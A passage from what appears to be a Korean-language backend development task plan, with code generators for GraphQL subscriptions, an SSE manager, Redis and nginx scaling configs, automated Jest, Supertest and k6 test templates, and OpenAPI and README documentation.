    userId: notification.userId
  });
};

export const publishDataUpdate = async (
  entityType: string,
  entityId: string,
  operation: 'create' | 'update' | 'delete',
  data: any
) => {
  await pubsub.publish(TOPICS.DATA_UPDATED, {
    dataUpdated: {
      entityType,
      entityId,
      operation,
      data,
      timestamp: new Date()
    },
    entityType,
    entityId
  });
};

// WebSocket setup for GraphQL subscriptions
export const setupSubscriptionServer = (httpServer: Server, schema: GraphQLSchema) => {
  const wsServer = new WebSocketServer({
    server: httpServer,
    path: '/graphql'
  });
  
  useServer(
    {
      schema,
      context: async (ctx) => {
        // Authenticate WebSocket connection
        const token = ctx.connectionParams?.authorization;
        if (!token) {
          throw new Error('Missing auth token');
        }
        
        const user = await validateToken(token);
        return { user, pubsub };
      },
      onConnect: async (ctx) => {
        console.log('Client connected for subscriptions');
      },
      onDisconnect: async (ctx) => {
        console.log('Client disconnected from subscriptions');
      }
    },
    wsServer
  );
  
  return wsServer;
};
`;
  }

  private generateSSEImplementation(requirements: RealtimeRequirements): string {
    return `
import { Request, Response } from 'express';
import { EventEmitter } from 'events';

export class SSEManager extends EventEmitter {
  private clients: Map<string, Set<Response>> = new Map();
  private messageId = 0;
  
  /**
   * Register SSE endpoint
   */
  register(req: Request, res: Response): void {
    const userId = (req as any).user?.userId;
    if (!userId) {
      res.status(401).send('Unauthorized');
      return;
    }
    
    // Set SSE headers
    res.writeHead(200, {
      'Content-Type': 'text/event-stream',
      'Cache-Control': 'no-cache',
      'Connection': 'keep-alive',
      'X-Accel-Buffering': 'no' // Disable Nginx buffering
    });
    
    // Send initial connection event
    this.sendToClient(res, {
      type: 'connection',
      data: { status: 'connected' }
    });
    
    // Add client to user's connection set
    if (!this.clients.has(userId)) {
      this.clients.set(userId, new Set());
    }
    this.clients.get(userId)!.add(res);
    
    // Heartbeat to keep connection alive
    const heartbeat = setInterval(() => {
      res.write(':heartbeat\\n\\n');
    }, 30000);
    
    // Handle client disconnect
    req.on('close', () => {
      clearInterval(heartbeat);
      this.removeClient(userId, res);
    });
  }
  
  /**
   * Send event to specific user
   */
  sendToUser(userId: string, event: string, data: any): void {
    const clients = this.clients.get(userId);
    if (!clients) return;
    
    const message = this.formatSSEMessage(event, data);
    
    clients.forEach(client => {
      client.write(message);
    });
  }
  
  /**
   * Broadcast to all connected clients
   */
  broadcast(event: string, data: any): void {
    const message = this.formatSSEMessage(event, data);
    
    this.clients.forEach((clientSet) => {
      clientSet.forEach(client => {
        client.write(message);
      });
    });
  }
  
  /**
   * Send to specific clients matching criteria
   */
  sendToClients(
    predicate: (userId: string) => boolean,
    event: string,
    data: any
  ): void {
    const message = this.formatSSEMessage(event, data);
    
    this.clients.forEach((clientSet, userId) => {
      if (predicate(userId)) {
        clientSet.forEach(client => {
          client.write(message);
        });
      }
    });
  }
  
  private sendToClient(res: Response, { type, data, retry }: any): void {
    const message = this.formatSSEMessage(type, data, retry);
    res.write(message);
  }
  
  private formatSSEMessage(
    event: string,
    data: any,
    retry?: number
  ): string {
    const id = ++this.messageId;
    let message = \`id: \${id}\\n\`;
    message += \`event: \${event}\\n\`;
    
    if (retry) {
      message += \`retry: \${retry}\\n\`;
    }
    
    // Split data into multiple lines if needed
    const dataStr = JSON.stringify(data);
    const lines = dataStr.match(/.{1,80}/g) || [dataStr];
    
    lines.forEach(line => {
      message += \`data: \${line}\\n\`;
    });
    
    message += '\\n';
    
    return message;
  }
  
  private removeClient(userId: string, res: Response): void {
    const clients = this.clients.get(userId);
    if (clients) {
      clients.delete(res);
      if (clients.size === 0) {
        this.clients.delete(userId);
      }
    }
  }
  
  getConnectionCount(): number {
    let count = 0;
    this.clients.forEach(clientSet => {
      count += clientSet.size;
    });
    return count;
  }
  
  getUserConnectionCount(userId: string): number {
    return this.clients.get(userId)?.size || 0;
  }
}

// Client-side SSE handler
export const createSSEClient = (url: string, token: string) => {
  const eventSource = new EventSource(\`\${url}?token=\${token}\`);
  const handlers = new Map<string, Set<Function>>();
  
  // Setup default handlers
  eventSource.onopen = () => {
    console.log('SSE connection opened');
  };
  
  eventSource.onerror = (error) => {
    console.error('SSE error:', error);
    
    if (eventSource.readyState === EventSource.CLOSED) {
      console.log('SSE connection closed, attempting reconnect...');
      // EventSource will automatically reconnect
    }
  };
  
  // Generic message handler
  eventSource.onmessage = (event) => {
    try {
      const data = JSON.parse(event.data);
      console.log('SSE message:', data);
    } catch (error) {
      console.error('Failed to parse SSE message:', error);
    }
  };
  
  return {
    on(event: string, handler: (data: any) => void): void {
      if (!handlers.has(event)) {
        handlers.set(event, new Set());
        
        // Add event listener
        eventSource.addEventListener(event, (e: any) => {
          try {
            const data = JSON.parse(e.data);
            handlers.get(event)?.forEach(fn => fn(data));
          } catch (error) {
            console.error(\`Failed to handle \${event} event:\`, error);
          }
        });
      }
      
      handlers.get(event)!.add(handler);
    },
    
    off(event: string, handler: Function): void {
      handlers.get(event)?.delete(handler);
    },
    
    close(): void {
      eventSource.close();
      handlers.clear();
    }
  };
};

// Express route for SSE
export const sseRouter = Router();
const sseManager = new SSEManager();

sseRouter.get('/events', authenticate, (req, res) => {
  sseManager.register(req, res);
});

// Integration with application events
eventBus.on('notification:created', ({ userId, notification }) => {
  sseManager.sendToUser(userId, 'notification', notification);
});

eventBus.on('data:updated', ({ userIds, type, data }) => {
  userIds.forEach(userId => {
    sseManager.sendToUser(userId, \`\${type}:updated\`, data);
  });
});

eventBus.on('system:broadcast', ({ message }) => {
  sseManager.broadcast('system', message);
});
`;
  }
}

// Scaling configuration for real-time features
class RealtimeScalingGenerator {
  generateScalingConfig(requirements: RealtimeRequirements): ScalingConfiguration {
    return {
      redisCluster: this.generateRedisClusterConfig(),
      loadBalancer: this.generateLoadBalancerConfig(),
      stickySession: this.generateStickySessionConfig(),
      horizontalScaling: this.generateHorizontalScalingConfig(requirements),
    };
  }

  private generateRedisClusterConfig(): string {
    return `
version: '3.8'

services:
  redis-master:
    image: redis:7-alpine
    command: redis-server --appendonly yes --cluster-enabled yes --cluster-config-file nodes.conf --cluster-node-timeout 5000
    volumes:
      - redis-master-data:/data
    networks:
      - redis-net
    ports:
      - "7000:6379"
  
  redis-replica-1:
    image: redis:7-alpine
    command: redis-server --appendonly yes --cluster-enabled yes --cluster-config-file nodes.conf --cluster-node-timeout 5000
    volumes:
      - redis-replica-1-data:/data
    networks:
      - redis-net
    depends_on:
      - redis-master
    ports:
      - "7001:6379"
  
  redis-replica-2:
    image: redis:7-alpine
    command: redis-server --appendonly yes --cluster-enabled yes --cluster-config-file nodes.conf --cluster-node-timeout 5000
    volumes:
      - redis-replica-2-data:/data
    networks:
      - redis-net
    depends_on:
      - redis-master
    ports:
      - "7002:6379"
  
  redis-cluster-init:
    image: redis:7-alpine
    depends_on:
      - redis-master
      - redis-replica-1
      - redis-replica-2
    networks:
      - redis-net
    command: |
      sh -c '
        sleep 10
        redis-cli --cluster create 
          redis-master:6379 
          redis-replica-1:6379 
          redis-replica-2:6379 
          --cluster-replicas 1 
          --cluster-yes
      '

volumes:
  redis-master-data:
  redis-replica-1-data:
  redis-replica-2-data:

networks:
  redis-net:
    driver: bridge
`;
  }

  private generateLoadBalancerConfig(): string {
    return `
# nginx.conf for WebSocket load balancing
upstream websocket_backend {
    ip_hash;  # Sticky sessions based on IP
    
    server backend1:3000 max_fails=3 fail_timeout=30s;
    server backend2:3000 max_fails=3 fail_timeout=30s;
    server backend3:3000 max_fails=3 fail_timeout=30s;
}

map $http_upgrade $connection_upgrade {
    default upgrade;
    ''      close;
}

server {
    listen 80;
    server_name api.example.com;
    
    # Regular HTTP traffic
    location /api {
        proxy_pass http://websocket_backend;
        proxy_http_version 1.1;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
    
    # WebSocket traffic
    location /socket.io {
        proxy_pass http://websocket_backend;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection $connection_upgrade;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
        
        # WebSocket specific timeouts
        proxy_connect_timeout 7d;
        proxy_send_timeout 7d;
        proxy_read_timeout 7d;
        
        # Disable buffering for real-time
        proxy_buffering off;
    }
    
    # SSE endpoints
    location /api/events {
        proxy_pass http://websocket_backend;
        proxy_http_version 1.1;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header Connection '';
        proxy_buffering off;
        proxy_cache off;
        
        # SSE specific headers
        proxy_set_header Cache-Control 'no-cache';
        proxy_set_header X-Accel-Buffering 'no';
        
        # Long timeout for SSE
        proxy_read_timeout 24h;
    }
}
`;
  }
}
```

**검증 기준**:

- [ ] WebSocket 구현 (Socket.IO)
- [ ] GraphQL Subscriptions
- [ ] Server-Sent Events (SSE)
- [ ] 확장 가능한 실시간 아키텍처

#### SubTask 4.16.3: 백엔드 테스트 자동화

**담당자**: 백엔드 테스트 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/backend_test_generator.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass

@dataclass
class BackendTestSuite:
    unit_tests: List[TestFile]
    integration_tests: List[TestFile]
    api_tests: List[TestFile]
    performance_tests: List[TestFile]
    security_tests: List[TestFile]
    contract_tests: List[TestFile]
    test_utilities: TestUtilities
    ci_configuration: CIConfiguration

class BackendTestGenerator:
    """백엔드 테스트 코드 생성기"""

    def __init__(self):
        self.unit_test_generator = UnitTestGenerator()
        self.integration_test_generator = IntegrationTestGenerator()
        self.api_test_generator = APITestGenerator()
        self.performance_test_generator = PerformanceTestGenerator()
        self.security_test_generator = SecurityTestGenerator()
        self.contract_test_generator = ContractTestGenerator()

    async def generate_test_suite(
        self,
        backend_code: BackendCodeStructure,
        api_spec: APISpecification,
        framework: str
    ) -> BackendTestSuite:
        """완전한 테스트 스위트 생성"""

        # 1. 단위 테스트
        unit_tests = await self.generate_unit_tests(
            backend_code,
            framework
        )

        # 2. 통합 테스트
        integration_tests = await self.generate_integration_tests(
            backend_code,
            framework
        )

        # 3. API 테스트
        api_tests = await self.generate_api_tests(
            api_spec,
            framework
        )

        # 4. 성능 테스트
        performance_tests = await self.generate_performance_tests(
            backend_code,
            api_spec
        )

        # 5. 보안 테스트
        security_tests = await self.generate_security_tests(
            backend_code,
            api_spec
        )

        # 6. Contract 테스트
        contract_tests = await self.generate_contract_tests(
            api_spec,
            framework
        )

        # 7. 테스트 유틸리티
        test_utilities = await self.generate_test_utilities(
            framework
        )

        # 8. CI 설정
        ci_configuration = await self.generate_ci_config(
            framework
        )

        return BackendTestSuite(
            unit_tests=unit_tests,
            integration_tests=integration_tests,
            api_tests=api_tests,
            performance_tests=performance_tests,
            security_tests=security_tests,
            contract_tests=contract_tests,
            test_utilities=test_utilities,
            ci_configuration=ci_configuration
        )

    async def generate_unit_tests(
        self,
        backend_code: BackendCodeStructure,
        framework: str
    ) -> List[TestFile]:
        """단위 테스트 생성"""

        test_files = []

        # Service layer tests
        for service in backend_code.services:
            test_file = await self.unit_test_generator.generate_service_tests(
                service,
                framework
            )
            test_files.append(test_file)

        # Repository layer tests
        for repository in backend_code.repositories:
            test_file = await self.unit_test_generator.generate_repository_tests(
                repository,
                framework
            )
            test_files.append(test_file)

        # Utility tests
        for utility in backend_code.utils:
            test_file = await self.unit_test_generator.generate_utility_tests(
                utility,
                framework
            )
            test_files.append(test_file)

        return test_files

class UnitTestGenerator:
    """단위 테스트 생성기"""

    async def generate_service_tests(
        self,
        service: ServiceCode,
        framework: str
    ) -> TestFile:
        """서비스 레이어 테스트 생성"""

        if framework in ['express', 'nestjs']:
            return self._generate_jest_service_tests(service)
        elif framework == 'fastapi':
            return self._generate_pytest_service_tests(service)
        else:
            return self._generate_generic_service_tests(service)

    def _generate_jest_service_tests(self, service: ServiceCode) -> TestFile:
        """Jest 서비스 테스트 생성"""

        test_code = f"""
import {{ {service.name} }} from '../{service.name}';
import {{ mock, mockClear, mockDeep }} from 'jest-mock-extended';
import {{ Test, TestingModule }} from '@nestjs/testing';

describe('{service.name}', () => {{
    let service: {service.name};
    let mockRepository: any;
    let mockEventEmitter: any;
    let mockCache: any;

    beforeEach(async () => {{
        // Create mocks
        mockRepository = mock{service.name.replace('Service', 'Repository')}();
        mockEventEmitter = mockEventEmitter();
        mockCache = mockCacheManager();

        // Create testing module
        const module: TestingModule = await Test.createTestingModule({{
            providers: [
                {service.name},
                {{
                    provide: '{service.name.replace('Service', 'Repository')}',
                    useValue: mockRepository
                }},
                {{
                    provide: 'EventEmitter',
                    useValue: mockEventEmitter
                }},
                {{
                    provide: 'CacheManager',
                    useValue: mockCache
                }}
            ]
        }}).compile();

        service = module.get<{service.name}>({service.name});
    }});

    afterEach(() => {{
        jest.clearAllMocks();
    }});

    {self._generate_method_tests(service)}

    {self._generate_error_handling_tests(service)}

    {self._generate_business_logic_tests(service)}

    {self._generate_transaction_tests(service)}
}});

// Mock factories
function mock{service.name.replace('Service', 'Repository')}() {{
    return {{
        findById: jest.fn(),
        findMany: jest.fn(),
        create: jest.fn(),
        update: jest.fn(),
        delete: jest.fn(),
        beginTransaction: jest.fn(() => ({{
            commit: jest.fn(),
            rollback: jest.fn()
        }}))
    }};
}}

function mockEventEmitter() {{
    return {{
        emit: jest.fn(),
        on: jest.fn(),
        off: jest.fn()
    }};
}}

function mockCacheManager() {{
    return {{
        get: jest.fn(),
        set: jest.fn(),
        delete: jest.fn(),
        invalidate: jest.fn()
    }};
}}
"""

        return TestFile(
            name=f"{service.name}.test.ts",
            type="unit",
            code=test_code,
            dependencies=["jest", "@nestjs/testing", "jest-mock-extended"]
        )

    def _generate_method_tests(self, service: ServiceCode) -> str:
        """서비스 메서드별 테스트 생성"""

        test_blocks = []

        for method in service.methods:
            test_block = f"""
    describe('{method.name}', () => {{
        it('should {method.description}', async () => {{
            // Arrange
            {self._generate_test_arrange(method)}

            // Act
            const result = await service.{method.name}({self._generate_test_params(method)});

            // Assert
            {self._generate_test_assertions(method)}
        }});

        it('should validate input parameters', async () => {{
            // Test with invalid params
            {self._generate_validation_test(method)}
        }});

        it('should handle edge cases', async () => {{
            // Test edge cases
            {self._generate_edge_case_test(method)}
        }});
    }});"""
            test_blocks.append(test_block)

        return '\n'.join(test_blocks)

class APITestGenerator:
    """API 테스트 생성기"""

    async def generate_api_tests(
        self,
        api_spec: APISpecification,
        framework: str
    ) -> List[TestFile]:
        """API 엔드포인트 테스트 생성"""

        test_files = []

        # Group endpoints by controller
        endpoint_groups = self._group_endpoints_by_controller(api_spec.endpoints)

        for controller_name, endpoints in endpoint_groups.items():
            test_file = await self._generate_controller_tests(
                controller_name,
                endpoints,
                framework
            )
            test_files.append(test_file)

        # Generate integration test scenarios
        scenario_tests = await self._generate_scenario_tests(
            api_spec,
            framework
        )
        test_files.extend(scenario_tests)

        return test_files

    async def _generate_controller_tests(
        self,
        controller_name: str,
        endpoints: List[APIEndpoint],
        framework: str
    ) -> TestFile:
        """컨트롤러별 API 테스트 생성"""

        if framework in ['express', 'nestjs']:
            return self._generate_supertest_tests(controller_name, endpoints)
        elif framework == 'fastapi':
            return self._generate_fastapi_tests(controller_name, endpoints)
        else:
            return self._generate_generic_api_tests(controller_name, endpoints)

    def _generate_supertest_tests(
        self,
        controller_name: str,
        endpoints: List[APIEndpoint]
    ) -> TestFile:
        """Supertest를 사용한 API 테스트"""

        test_code = f"""
import request from 'supertest';
import {{ app }} from '../app';
import {{ createTestDatabase, cleanupDatabase }} from '../test/utils/database';
import {{ generateAuthToken }} from '../test/utils/auth';
import {{ factories }} from '../test/factories';

describe('{controller_name} API Tests', () => {{
    let authToken: string;
    let testUser: any;

    beforeAll(async () => {{
        await createTestDatabase();
        testUser = await factories.user.create();
        authToken = generateAuthToken(testUser);
    }});

    afterAll(async () => {{
        await cleanupDatabase();
    }});

    beforeEach(async () => {{
        // Clear data between tests
        await clearTestData();
    }});

    {self._generate_endpoint_tests(endpoints)}

    {self._generate_error_tests(endpoints)}

    {self._generate_auth_tests(endpoints)}

    {self._generate_validation_tests(endpoints)}
}});

// Test data factories
{self._generate_test_factories(endpoints)}

// Helper functions
{self._generate_test_helpers(endpoints)}
"""

        return TestFile(
            name=f"{controller_name}.api.test.ts",
            type="api",
            code=test_code,
            dependencies=["supertest", "jest"]
        )

    def _generate_endpoint_tests(self, endpoints: List[APIEndpoint]) -> str:
        """엔드포인트별 테스트 생성"""

        test_blocks = []

        for endpoint in endpoints:
            test_block = f"""
    describe('{endpoint.method} {endpoint.path}', () => {{
        it('should {endpoint.summary}', async () => {{
            {self._generate_test_setup(endpoint)}

            const response = await request(app)
                .{endpoint.method.lower()}('{endpoint.path}')
                {self._generate_request_setup(endpoint)}
                .expect({endpoint.success_status_code or 200});

            {self._generate_response_assertions(endpoint)}
        }});

        it('should return correct response schema', async () => {{
            {self._generate_test_setup(endpoint)}

            const response = await request(app)
                .{endpoint.method.lower()}('{endpoint.path}')
                {self._generate_request_setup(endpoint)}
                .expect({endpoint.success_status_code or 200});

            {self._generate_schema_validation(endpoint)}
        }});

        {self._generate_pagination_test(endpoint) if endpoint.has_pagination else ''}

        {self._generate_filter_test(endpoint) if endpoint.has_filters else ''}
    }});"""
            test_blocks.append(test_block)

        return '\n'.join(test_blocks)

class PerformanceTestGenerator:
    """성능 테스트 생성기"""

    async def generate_performance_tests(
        self,
        backend_code: BackendCodeStructure,
        api_spec: APISpecification
    ) -> List[TestFile]:
        """성능 테스트 생성"""

        test_files = []

        # K6 load tests
        k6_tests = await self._generate_k6_tests(api_spec)
        test_files.extend(k6_tests)

        # Artillery tests
        artillery_tests = await self._generate_artillery_tests(api_spec)
        test_files.extend(artillery_tests)

        # Database performance tests
        db_perf_tests = await self._generate_db_performance_tests(
            backend_code.repositories
        )
        test_files.extend(db_perf_tests)

        return test_files

    async def _generate_k6_tests(
        self,
        api_spec: APISpecification
    ) -> List[TestFile]:
        """K6 부하 테스트 생성"""

        test_files = []

        # Main load test
        main_test = f"""
import http from 'k6/http';
import {{ check, sleep }} from 'k6';
import {{ Rate }} from 'k6/metrics';
import {{ randomItem }} from 'https://jslib.k6.io/k6-utils/1.2.0/index.js';

// Custom metrics
const errorRate = new Rate('errors');
const successRate = new Rate('success');

// Test configuration
export const options = {{
    stages: [
        {{ duration: '2m', target: 50 }},   // Ramp up
        {{ duration: '5m', target: 100 }},  // Stay at 100 users
        {{ duration: '2m', target: 200 }},  // Spike to 200 users
        {{ duration: '5m', target: 200 }},  // Stay at 200 users
        {{ duration: '2m', target: 0 }},    // Ramp down
    ],
    thresholds: {{
        http_req_duration: ['p(95)<500'], // 95% of requests under 500ms
        http_req_failed: ['rate<0.1'],    // Error rate under 10%
        errors: ['rate<0.1'],             // Custom error rate under 10%
    }},
}};

// Test data
const BASE_URL = __ENV.BASE_URL || 'http://localhost:3000';
const AUTH_TOKEN = __ENV.AUTH_TOKEN || login();

function login() {{
    const response = http.post(`${{BASE_URL}}/api/auth/login`, JSON.stringify({{
        email: 'test@example.com',
        password: 'testpassword'
    }}), {{
        headers: {{ 'Content-Type': 'application/json' }}
    }});

    return response.json('token');
}}

export default function() {{
    const headers = {{
        'Authorization': `Bearer ${{AUTH_TOKEN}}`,
        'Content-Type': 'application/json'
    }};

    // Scenario weights
    const scenarios = [
        {{ name: 'browse', weight: 0.6, fn: browseScenario }},
        {{ name: 'search', weight: 0.2, fn: searchScenario }},
        {{ name: 'create', weight: 0.1, fn: createScenario }},
        {{ name: 'update', weight: 0.1, fn: updateScenario }}
    ];

    // Select scenario based on weight
    const scenario = selectWeightedScenario(scenarios);
    scenario.fn(headers);

    sleep(1);
}}

function browseScenario(headers) {{
    // List resources
    const listResponse = http.get(`${{BASE_URL}}/api/resources`, {{ headers }});

    check(listResponse, {{
        'list status is 200': (r) => r.status === 200,
        'list has results': (r) => r.json('data') && r.json('data').length > 0
    }});

    errorRate.add(listResponse.status !== 200);
    successRate.add(listResponse.status === 200);

    // Get specific resource
    if (listResponse.status === 200) {{
        const resources = listResponse.json('data');
        if (resources && resources.length > 0) {{
            const resource = randomItem(resources);
            const getResponse = http.get(
                `${{BASE_URL}}/api/resources/${{resource.id}}`,
                {{ headers }}
            );

            check(getResponse, {{
                'get status is 200': (r) => r.status === 200,
                'get returns resource': (r) => r.json('id') === resource.id
            }});
        }}
    }}
}}

function searchScenario(headers) {{
    const searchTerms = ['test', 'example', 'data', 'user'];
    const searchTerm = randomItem(searchTerms);

    const response = http.get(
        `${{BASE_URL}}/api/resources/search?q=${{searchTerm}}`,
        {{ headers }}
    );

    check(response, {{
        'search status is 200': (r) => r.status === 200,
        'search returns array': (r) => Array.isArray(r.json('data'))
    }});

    errorRate.add(response.status !== 200);
}}

function createScenario(headers) {{
    const payload = {{
        name: `Test Resource ${{Date.now()}}`,
        description: 'Created by performance test',
        value: Math.floor(Math.random() * 1000)
    }};

    const response = http.post(
        `${{BASE_URL}}/api/resources`,
        JSON.stringify(payload),
        {{ headers }}
    );

    check(response, {{
        'create status is 201': (r) => r.status === 201,
        'create returns id': (r) => r.json('id') !== undefined
    }});

    errorRate.add(response.status !== 201);
}}

// Helper functions
function selectWeightedScenario(scenarios) {{
    const random = Math.random();
    let cumulative = 0;

    for (const scenario of scenarios) {{
        cumulative += scenario.weight;
        if (random <= cumulative) {{
            return scenario;
        }}
    }}

    return scenarios[scenarios.length - 1];
}}
"""

        test_files.append(TestFile(
            name="load-test.js",
            type="performance",
            code=main_test,
            dependencies=["k6"]
        ))

        # Stress test
        stress_test = await self._generate_stress_test(api_spec)
        test_files.append(stress_test)

        # Spike test
        spike_test = await self._generate_spike_test(api_spec)
        test_files.append(spike_test)

        return test_files

class SecurityTestGenerator:
    """보안 테스트 생성기"""

    async def generate_security_tests(
        self,
        backend_code: BackendCodeStructure,
        api_spec: APISpecification
    ) -> List[TestFile]:
        """보안 테스트 생성"""

        test_files = []

        # OWASP ZAP tests
        zap_tests = await self._generate_zap_tests(api_spec)
        test_files.extend(zap_tests)

        # Authentication tests
        auth_tests = await self._generate_auth_security_tests(backend_code)
        test_files.append(auth_tests)

        # SQL injection tests
        sqli_tests = await self._generate_sql_injection_tests(api_spec)
        test_files.append(sqli_tests)

        # XSS tests
        xss_tests = await self._generate_xss_tests(api_spec)
        test_files.append(xss_tests)

        # CSRF tests
        csrf_tests = await self._generate_csrf_tests(api_spec)
        test_files.append(csrf_tests)

        return test_files
```

**검증 기준**:

- [ ] 다층 테스트 전략
- [ ] 성능 테스트 자동화
- [ ] 보안 테스트 통합
- [ ] CI/CD 파이프라인 설정

#### SubTask 4.16.4: 문서화 및 API 명세 생성

**담당자**: 기술 문서 엔지니어  
**예상 소요시간**: 8시간

**작업 내용**:

```python
# backend/src/agents/implementations/backend_documentation_generator.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass

@dataclass
class BackendDocumentation:
    api_documentation: APIDocumentation
    code_documentation: CodeDocumentation
    architecture_documentation: ArchitectureDocumentation
    deployment_guide: DeploymentGuide
    developer_guide: DeveloperGuide
    postman_collection: PostmanCollection
    openapi_spec: OpenAPISpecification

class BackendDocumentationGenerator:
    """백엔드 문서화 생성기"""

    def __init__(self):
        self.api_doc_generator = APIDocumentationGenerator()
        self.code_doc_generator = CodeDocumentationGenerator()
        self.architecture_doc_generator = ArchitectureDocumentationGenerator()
        self.deployment_doc_generator = DeploymentDocumentationGenerator()

    async def generate_documentation(
        self,
        backend_code: BackendCodeStructure,
        api_spec: APISpecification,
        architecture: ArchitectureDesign
    ) -> BackendDocumentation:
        """전체 문서화 생성"""

        return BackendDocumentation(
            api_documentation=await self._generate_api_docs(api_spec, backend_code),
            code_documentation=await self._generate_code_docs(backend_code),
            architecture_documentation=await self._generate_architecture_docs(
                architecture,
                backend_code
            ),
            deployment_guide=await self._generate_deployment_guide(backend_code),
            developer_guide=await self._generate_developer_guide(backend_code),
            postman_collection=await self._generate_postman_collection(api_spec),
            openapi_spec=await self._generate_openapi_spec(api_spec)
        )

    async def _generate_api_docs(
        self,
        api_spec: APISpecification,
        backend_code: BackendCodeStructure
    ) -> APIDocumentation:
        """API 문서 생성"""

        # OpenAPI/Swagger 명세 생성
        openapi_content = await self.api_doc_generator.generate_openapi(
            api_spec,
            backend_code
        )

        # API 개요 문서
        overview_content = f"""
# {api_spec.title} API Documentation

## Overview
{api_spec.description}

## Base URL
```

{api_spec.base_url}

````

## Authentication
{self._generate_auth_section(api_spec)}

## Rate Limiting
{self._generate_rate_limit_section(api_spec)}

## Error Handling
{self._generate_error_handling_section(api_spec)}

## API Endpoints

{self._generate_endpoints_toc(api_spec.endpoints)}

---

{self._generate_detailed_endpoints(api_spec.endpoints)}

## Webhooks
{self._generate_webhooks_section(api_spec.webhooks) if api_spec.webhooks else 'No webhooks configured.'}

## Code Examples
{self._generate_code_examples(api_spec)}

## SDK Documentation
{self._generate_sdk_docs(api_spec)}
"""

        return APIDocumentation(
            overview=overview_content,
            openapi_spec=openapi_content,
            endpoints_documentation=await self._generate_endpoint_docs(api_spec.endpoints),
            authentication_guide=await self._generate_auth_guide(api_spec),
            error_reference=await self._generate_error_reference(api_spec)
        )

class APIDocumentationGenerator:
    """API 문서 생성기"""

    async def generate_openapi(
        self,
        api_spec: APISpecification,
        backend_code: BackendCodeStructure
    ) -> str:
        """OpenAPI 3.0 명세 생성"""

        openapi_spec = {
            "openapi": "3.0.3",
            "info": {
                "title": api_spec.title,
                "description": api_spec.description,
                "version": api_spec.version,
                "contact": {
                    "name": "API Support",
                    "email": "api@example.com"
                },
                "license": {
                    "name": "MIT",
                    "url": "https://opensource.org/licenses/MIT"
                }
            },
            "servers": [
                {
                    "url": api_spec.base_url,
                    "description": "Production server"
                },
                {
                    "url": "https://staging-api.example.com",
                    "description": "Staging server"
                },
                {
                    "url": "http://localhost:3000",
                    "description": "Development server"
                }
            ],
            "security": self._generate_security_schemes(api_spec),
            "tags": self._generate_tags(api_spec),
            "paths": await self._generate_paths(api_spec.endpoints),
            "components": await self._generate_components(api_spec, backend_code)
        }

        return json.dumps(openapi_spec, indent=2)

    async def _generate_paths(
        self,
        endpoints: List[APIEndpoint]
    ) -> Dict[str, Any]:
        """경로별 API 명세 생성"""

        paths = {}

        for endpoint in endpoints:
            path = endpoint.path
            method = endpoint.method.lower()

            if path not in paths:
                paths[path] = {}

            paths[path][method] = {
                "summary": endpoint.summary,
                "description": endpoint.description,
                "operationId": endpoint.operation_id,
                "tags": endpoint.tags,
                "security": self._get_endpoint_security(endpoint),
                "parameters": self._generate_parameters(endpoint),
                "requestBody": self._generate_request_body(endpoint) if endpoint.request_body else None,
                "responses": self._generate_responses(endpoint)
            }

            # Remove None values
            paths[path][method] = {k: v for k, v in paths[path][method].items() if v is not None}

        return paths

    def _generate_parameters(self, endpoint: APIEndpoint) -> List[Dict[str, Any]]:
        """파라미터 명세 생성"""

        parameters = []

        # Path parameters
        for param in endpoint.path_params or []:
            parameters.append({
                "name": param.name,
                "in": "path",
                "required": True,
                "description": param.description,
                "schema": self._get_parameter_schema(param)
            })

        # Query parameters
        for param in endpoint.query_params or []:
            parameters.append({
                "name": param.name,
                "in": "query",
                "required": param.required,
                "description": param.description,
                "schema": self._get_parameter_schema(param)
            })

        # Header parameters
        for param in endpoint.header_params or []:
            parameters.append({
                "name": param.name,
                "in": "header",
                "required": param.required,
                "description": param.description,
                "schema": self._get_parameter_schema(param)
            })

        return parameters

class CodeDocumentationGenerator:
    """코드 문서 생성기"""

    async def generate_code_documentation(
        self,
        backend_code: BackendCodeStructure
    ) -> CodeDocumentation:
        """코드 문서 생성"""

        return CodeDocumentation(
            readme=await self._generate_readme(backend_code),
            architecture_overview=await self._generate_architecture_overview(backend_code),
            module_documentation=await self._generate_module_docs(backend_code),
            api_reference=await self._generate_api_reference(backend_code),
            database_schema=await self._generate_database_docs(backend_code),
            configuration_guide=await self._generate_config_guide(backend_code)
        )

    async def _generate_readme(
        self,
        backend_code: BackendCodeStructure
    ) -> str:
        """README.md 생성"""

        return f"""
# {backend_code.project_name} Backend

## Overview
This is the backend service for {backend_code.project_name}, built with {backend_code.framework}.

## Table of Contents
- [Getting Started](#getting-started)
- [Project Structure](#project-structure)
- [API Documentation](#api-documentation)
- [Development](#development)
- [Testing](#testing)
- [Deployment](#deployment)
- [Contributing](#contributing)

## Getting Started

### Prerequisites
- Node.js >= 16.x
- PostgreSQL >= 13.x
- Redis >= 6.x
- Docker (optional)

### Installation
```bash
# Clone the repository
git clone https://github.com/your-org/{backend_code.project_name}.git
cd {backend_code.project_name}

# Install dependencies
npm install

# Setup environment variables
cp .env.example .env
# Edit .env with your configuration

# Run database migrations
npm run db:migrate

# Seed database (optional)
npm run db:seed
````

### Running the Application

```bash
# Development mode
npm run dev

# Production mode
npm run build
npm start

# Using Docker
docker-compose up
```

## Project Structure

```
{self._generate_project_structure(backend_code)}
```

## API Documentation

API documentation is available at:

- Development: http://localhost:3000/api-docs
- Production: https://api.example.com/api-docs

## Development

### Code Style

We use ESLint and Prettier for code formatting:

```bash
npm run lint
npm run format
```

### Database Migrations

```bash
# Create a new migration
npm run migration:create -- --name <migration-name>

# Run migrations
npm run migration:run

# Revert last migration
npm run migration:revert
```

### Environment Variables

{self.\_generate_env_documentation(backend_code)}

## Testing

### Running Tests

```bash
# Unit tests
npm test

# Integration tests
npm run test:integration

# E2E tests
npm run test:e2e

# Test coverage
npm run test:coverage
```

### Test Structure

- `__tests__/unit/` - Unit tests
- `__tests__/integration/` - Integration tests
